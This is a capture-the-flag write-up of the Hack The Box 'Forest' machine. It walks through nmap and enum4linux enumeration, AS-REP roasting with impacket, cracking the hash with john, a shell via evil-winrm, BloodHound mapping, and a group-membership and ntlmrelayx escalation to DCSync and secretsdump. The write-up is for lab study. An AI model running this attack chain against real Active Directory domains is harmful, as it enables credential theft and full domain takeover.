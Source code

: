 ```yaml
---
layout: post
title:  htb-forest
category: walkthrough
date:   2020-08-05 05:00:00
---
```


# ![forest](/assets/img/ferest/forest.png)  
forest is a easy machine made by [egre55](https://www.hackthebox.eu/home/users/profile/1190) & [mrb3n](https://www.hackthebox.eu/home/users/profile/2984)  

# ENUM  
### nmap   
>nmap -sC -Pn -sV -T4 10.10.10.161  
>Starting Nmap 7.70 ( https://nmap.org ) at 2020-08-05 07:30 -03  
>Nmap scan report for 10.10.10.161  
>Host is up (0.23s latency).  
>Not shown: 989 closed ports  
>PORT     STATE SERVICE      VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP:   
>|     version  
>|_    bind  
>88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-05 10:41:15Z)  
>135/tcp  open  msrpc        Microsoft Windows RPC  
>139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn  
>389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=8/5%Time=5F2A8A51%P=x86\_64-pc-linux-gnu%r(DNSVe  
>SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x  
>SF:04bind\0\0\x10\0\x03");  
>Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows  

>Host script results:  
>|_clock-skew: mean: 2h30m39s, deviation: 4h02m31s, median: 10m37s  
>| smb-os-discovery:   
>|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)  
>|   Computer name: FOREST  
>|   NetBIOS computer name: FOREST\x00  
>|   Domain name: htb.local  
>|   Forest name: htb.local  
>|   FQDN: FOREST.htb.local  
>|_  System time: 2020-08-05T03:43:35-07:00  
>| smb-security-mode:   
>|   account\_used: guest  
>|   authentication\_level: user  
>|   challenge\_response: supported  
>|_  message_signing: required  
>| smb2-security-mode:   
>|   2.02:   
>|_    Message signing enabled and required  
>| smb2-time:  
>|   date: 2020-08-05 07:43:36  
>|_  start\_date: 2020-08-05 06:33:34  

>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 277.86 seconds  

Nmap gives me the domain htb.local  
Now I need usernames to try use [impacket](https://github.com/ifconfig-me/impacket)  

### enum4linux  
>[enum4linux](https://github.com/CiscoCXSecurity/enum4linux) 10.10.10.16  
enum4linux shows a list of users  
![user](/assets/img/forest/forest1.png)  

# exploit  

Now I can use impacket's GetNPUser.py  
### impacket  
>./GetNPUsers.py htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass  
Impacket found the hash of svc-alfresco user  
John will help me to crack it  
>john -w=/usr/share/wordlists/rockyou.txt hash.as  
![pass](/assets/img/forest/forest3.png)  

[evil-winrm](https://github.com/Hackplayers/evil-winrm) to acess the machine  
>./evil-winrm.rb -i 10.10.10.161 -p s3rvice -u svc-alfresco  
![shell](/assets/img/forest/forest4.png)    
# PRIV ESC  
### bloodhound  
The hound  
>./bloodhound.py -d htb.local -ns 10.10.10.161 -u svc-alfresco -p s3rvice -c all  
![bloodHound](/assets/img/forest/forest5.png)  
Just zip all the .json file and send to bloodhound  
svc-alfresco is member of[Account Operators](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn579255(v=ws.11))  
![group](/assets/img/forest/forest6.png)  

![exchange1](/assets/img/forest/forest7.png) 
And exchange windows permissons group has WriteDacl 
![exchange2](/assets/img/forest8.png)  
![writDacl](/assets/img/forest9.png)  

If I add a user to Exchange Windows Permissions group I'll be able to do a DCSync attack  
### impacket  
>net group "Exchange Windows Permissions" svc-alfresco /add  
![netGroup](/assets/img/forest/forest10.png)  
to add svc-alfresco in the group  
and impacket's ntlmrelayx.py  
>ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco  
Logged as svc-alfresco in localhost  
![localhost](/assets/img/forest/forest11.png)  
and.. 
![ntlmrelayx](/assets/img/forest/forest12.png)  
Ready for secretsdump  
![secretsDump](/assets/img/forest/forest13.png)  
Evil again as admin  
![evilAdmin](/assets/img/forest/forest14.png)  
